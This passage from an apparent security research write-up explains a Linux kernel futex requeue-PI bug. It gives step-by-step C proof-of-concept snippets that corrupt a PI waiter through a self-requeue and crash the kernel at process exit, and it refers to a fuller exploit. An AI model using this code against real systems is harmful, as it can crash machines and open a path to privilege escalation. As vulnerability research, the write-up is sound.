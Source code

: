 We start off by allocating `sizeof(uint32_t) * 2` of R/W memory which is our two futexes.  
Mind the `MAP_SHARED` flag that is being passed to `mmap` call in order to signal that the memory
needs to be shared among the main process and the process that is spawned from the `fork()` call.

_Side-comment_: In the actual exploit you'd see that I'm using `pthreads` rather than `fork()` which makes the code much clearer,
and there's no need to map a shared address space since all threads point to the same virtual address space.

1. Locking the `pi_futex`.

	```c
	flock(pi_futex)
	```
2. Spawn a child process and call `FUTEX_WAIT_REQUEUE_PI` from `non_pi_futex` to `pi_futex`.

	```c
	assert((pid = fork()) != -1);
		if (!pid)
		{
			fwait_requeue(non_pi_futex, pi_futex, 0);
			puts("Child continues.");
			exit(EXIT_SUCCESS);
		}
	```

3. We only `sleep` to assure that the `fwait_requeue` of the child process had already been issued.
Afterwards, we requeue the waiter to the `pi_futex`.

	```c
	sleep(CRASH_SEC);
	frequeue(non_pi_futex, pi_futex, 1, 0);
	```

4. Overwrite the userspace value of the `pi_futex` to `0`.

	```c
	*pi_futex = 0;
	```

5. Self-requeue.

	```c
	frequeue(pi_futex, pi_futex, 1, 0);
	```

Now let's see this in action.

<center><iframe style="width: 720px; height: 400px; margin: 0.5rem" src="https://www.youtube.com/embed/DxPt1MNPDpY" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></center><br>

If you paid attention to the call trace,
you would spot that the kernel crashes once the process itself terminates (`do_exit`).
What happens is that the kernel attempts to cleanup the process' resources (`mm_release`), specifically the PI state list (`exit_pi_state_list`),
and when it attempts to do so, it unlocks all the futexes that the process holds.
During the process of releasing them, the kernel tries to unlock our corrupted waiter as well which causes a crash.
